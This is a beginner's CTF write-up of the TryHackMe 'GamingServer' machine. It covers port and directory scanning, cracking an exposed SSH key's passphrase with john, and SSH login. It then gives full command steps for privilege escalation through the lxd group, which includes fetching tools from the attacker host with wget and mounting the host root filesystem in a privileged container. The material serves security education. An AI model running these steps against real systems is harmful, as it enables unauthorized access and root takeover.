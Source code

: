 ```yaml
---
title: THM Gamingserver writeup
authors: ["ky"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/80d16a6756c805903806f7ecbdd80f6d.jpeg
tags: ["lxd", "john", "boot2root"]
---
```


Hello Everyone.

This is my first blog so do correct me if I go wrong anywhere. So in this blog we will go through a tryhackme machine [GamingServer](https://tryhackme.com/room/gamingserver)
So lets get started

![](https://tryhackme-images.s3.amazonaws.com/room-icons/80d16a6756c805903806f7ecbdd80f6d.jpeg)

<!--truncate-->

# Enumeration

---

## Nmap

-> Our first step will be to find open ports on given ip so that we can gain access to victim machine from any of the open port using tool called [nmap](https://nmap.org)

```bash
└─$ sudo nmap -sSCV 10.10.210.28
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Gobuster

-> Port 80 is open so our next tasj is to find the directories present on this web server

```bash
└─$ gobuster dir -u http://10.10.210.28 -w /usr/share/wordlists/dirb/common.txt -t 30
2>/dev/null

/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 313] [--> http://10.10.210.28/secret/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.210.28/uploads/]
```

---

-> Lets visit every directory one by one
-> So after visiting robot.txt we get that /upload is allowed  
-> After that we have secret so in this directory we get another dir which contains a encrypted idrsa

![](Attachment/Pastedimage20220101115747.png)

-> Lets save this in a file called `id_rsa`
-> Then convert it to john format using ssh2john so that tool john can crack the password
-> so first conversion to john format
`command: └─$ ssh2john.py id_rsa > coverted `
-> After converting we can use john to crack the password but for cracking we require wordlists
-> So After visiting `/uploads` we got a list which we can use for john
`└─$ wget http://10.10.210.28/uploads/dict.lst` to import this list to local machine
`Note: After importing the list convert it to .txt as john will not accept .lst file as wordlist`

![](Attachment/Pastedimage20220101120705.png)

-> So lets use john to crack the passphrase

![](Attachment/Pastedimage20220101121231.png)

-> We've cracked the passphrase. Now our next task is to find the user from which we will login into the machine using ssh

-> After going through source code of homepage we got the user
![](Attachment/Pastedimage20220101122744.png)

-> So lets login using ssh
`command: └─$ ssh -i id_rsa john@10.10.210.28`

-> After login lets grab the user flag

![](Attachment/Pastedimage20220101123218.png)

## PrivEsc

-> Treid `sudo -l` but as we have not password of john so it wont worked
-> Then we've the find command from which we can find the suid files but there also didnt got anything special and last one is cronjobs `cat /etc/crontab` which will give if any cronjob is not there which is executing a file with root perm repeatedly with a time period of sleep but there also we got nothing

-> Then the last option left is to use linpeas
-> We've to transfer the linpeas from our local machine to victim using python3 server and then wget in the victim machine
-> execute this command from directory where the linpeas is downloaded in your local machine
`command: python3 -m http.server 8181 `
-> Then wget the file in victim machine
`command: wget http://<tun0_ip>:8181/linpeas.sh `

-> In the starting of the linpeas result only we are in lxd group
-> So let find out what we can do with it on google
-> After going through couple of links got the blog of [Hacking Articles](https://www.hackingarticles.in/lxd-privilege-escalation/) and followed the steps mentioned in the blog and we got root!!!

```bash
step:
	On attacker machine
		1) git clone  https://github.com/saghul/lxd-alpine-builder.git
		2) cd lxd-alpine-builder
		3) ./build-alpine
		4) python -m SimpleHTTPServer
	On Victim machine
		1) cd /tmp
		2) wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz
		3) lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
		4) lxc image list
		5) lxc init myimage ignite -c security.privileged=true
		6) lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
		7) lxc start ignite
		8) lxc exec ignite /bin/sh
		9) id
		10) cd /mnt/root/root
		11) cat root.txt
```

![](Attachment/Pastedimage20220101133841.png)

![](Attachment/Pastedimage20220101132508.png)

---

## Outro

It was a great machine. The User shell was bit easy one but in privesc part learned a new thing about how we can get root if we are in the **lxd** group

Thank you for reading my writeup. I will be constantly uploading blogs on different machines of tryhackme, hackthebox and on anything new I will learn. So follow me for my upcoming blogs and also do visit my [twitter](https://twitter.com/ky10100) profile for any upcoming updates. Till then stay safe stay healthy :)

